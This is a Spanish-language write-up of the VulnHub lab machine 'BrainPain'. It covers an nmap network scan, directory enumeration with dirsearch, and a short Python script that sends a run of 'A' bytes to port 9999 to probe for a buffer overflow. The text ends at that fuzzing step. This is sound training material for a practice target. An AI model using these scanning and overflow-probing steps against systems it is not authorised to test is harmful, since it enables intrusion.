 # Resolviendo máquina BrainPain de VulnHub
---
### Software:

- Immunity Debugger
- mona.py
- VMware
- Dirsearch
- python

### OS:

 - Windows 10 Pro
 - Kali Linux
 - MV BrainPain
 ---
 ### Empezamos:
 En primer lugar, levantaremos la máquina BrainPain y desde nuestra Kali haremos un escaneo de nuestra red para ver si la encontramos. Para ello lanzamos:
 ````
 nmap 192.168.0.0/24 -v -O
 ````
 Una vez la identificamos nos damos cuenta que tiene abiertos los puertos 9999 y el 10000 con el servicio HTTP activo, por lo que abriremos la dirección en el navegador web.
 
##### Instalación y uso de "Dirsearch"
 Al entrar en la dirección web encontramos una imagen y no hay enlaces ni posibilidad de movernos por la web, por lo que utilizaremos el siguiente programa: ***Dirsearch***
 ````
 https://github.com/maurosoria/dirsearch
 git clone https://github.com/maurosoria/dirsearch.git
 cd dirsearch
 python3 dirsearch.py -u <URL> -e <EXTENSIONS>
 ````
 Al ejecutar el programa, econtramos que tiene un directorio: "/bin". Al entrar nos encontramos con un .exe.
 Por lo que llega el momento de irnos a nuestra máquina Windows 10 pro.

Al ejecutar el programa nos encontramos con esto:
 ````
 [+] initializing winsock...done.
 [+] server socket created.
 [+] bind done on port 9999
 [+] waiting for connections.
 
 ````

Se crea un server socket en el puerto 9999. Es el momento de crear un script en python para ser capaces de enviarles bytes al servidor y ver si somos capaces de encontrar un BOF.

##### Creacion del script

El script nombrado "brainpain.py" es muy sencillo, simplemente genera una conexión y manda los bytes que le indiquemos:
````
#!/usr/bin/python
import socket

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('127.0.0.1',9999))

buf =  '\x41' * 1000

client.send(buf)
client.close()
````

